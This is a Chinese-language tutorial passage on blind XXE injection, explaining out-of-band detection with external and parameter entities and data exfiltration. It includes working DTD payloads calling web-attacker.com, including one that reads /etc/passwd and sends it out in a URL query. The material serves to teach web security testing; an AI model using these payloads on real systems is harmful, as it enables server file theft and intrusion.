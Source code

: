 许多XXE漏洞实例都是盲注。这意味着应用程序不会在其响应中返回任何已定义的外部实体的值，因此无法直接检索服务器端文件。

XXE盲注仍然可以被检测和利用，但需要更先进的技术。有时可以使用带外技术（out-of-band）来查找漏洞并利用它们来泄露数据。有时，可能会触发XML解析错误，从而导致错误消息中的敏感数据泄露。

有两种广泛使用的方法查找和利用XXE盲注：

- 触发带外（out-of-band）网络交互，有时会泄露交互数据中的敏感数据。
- 触发XML分析错误，使错误消息包含敏感数据

#### Detecting blind XXE using out-of-band（OAST）techniques

通常，您可以使用与XXE SSRF攻击相同的技术来检测XXE盲注，但会触发与所控制系统的带外（out-of-band）网络交互。

```xml-dtd
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

然后，您将在XML中的数据值中使用定义的实体。

此XXE攻击会导致服务器向指定的URL发出后端HTTP请求。攻击者可以监视生成的**DNS查找和HTTP请求**，从而检测XXE攻击是否成功。

有时，由于应用程序的某些输入验证或正在使用的 XML 解析器的某些加固，使用常规实体的 XXE 攻击会被阻止。在这种情况下，你也许可以使用 XML **参数实体**来代替。XML 参数实体是一种特殊的 XML 实体，只能在 DTD 的其他地方引用。就目前而言，您只需了解两件事。首先，XML 参数实体的声明包括实体名称前**的百分号字符**：

```xml-dtd
<!ENTITY % myparameterentity "my parameter entity value" >
```

其次，**使用百分号字符**而不是通常的&符号**来引用**参数实体：

```xml-dtd
%myparameterentity;
```

也就是说，可以通过xml参数实体使用带外检测来测试盲XXE，如下所示：

```xml-dtd
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

此XXE payload 声明一个调用`xxe` 的XML参数实体，然后在DTD中使用该实体。这将导致对攻击者域的DNS查询和HTTP请求，以验证攻击是否成功。

### Exploiting blind XXE to exfiltrate data out-of-band

通过out-of-band技术检测 XXE盲注漏洞效果很好，但实际上并没有演示如何利用该漏洞。攻击者真正想要实现的是泄露敏感数据。这可以通过XXE盲注漏洞来实现！但它涉及攻击者在他们控制的系统上托管恶意DTD，然后从带内XXE有效负载中调用外部DTD。

恶意DTD泄露 /etc/passwd 文件内容的示例如下：

>实体编码是以&#开头 ；结尾的

```xml-dtd
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

此DTD执行以下步骤：

- 定义一个名为`file`的XML参数实体，其中包含`/etc/passwd`文件的内容。
- 定义一个名为`eval`的XML参数实体，其中包含另一个名为`exfiltrate`的XML参数实体的动态声明。将通过向攻击者的Web服务器发出HTTP请求来评估该`exfiltrate`实体，该请求包含URL查询字符串中`file`实体的值。
- 使用`eval`实体，这将会导致执行`exfiltrate`实体得到动态声明。
- 使用实体`exfiltrate`，以便通过请求指定的URL来计算其值。
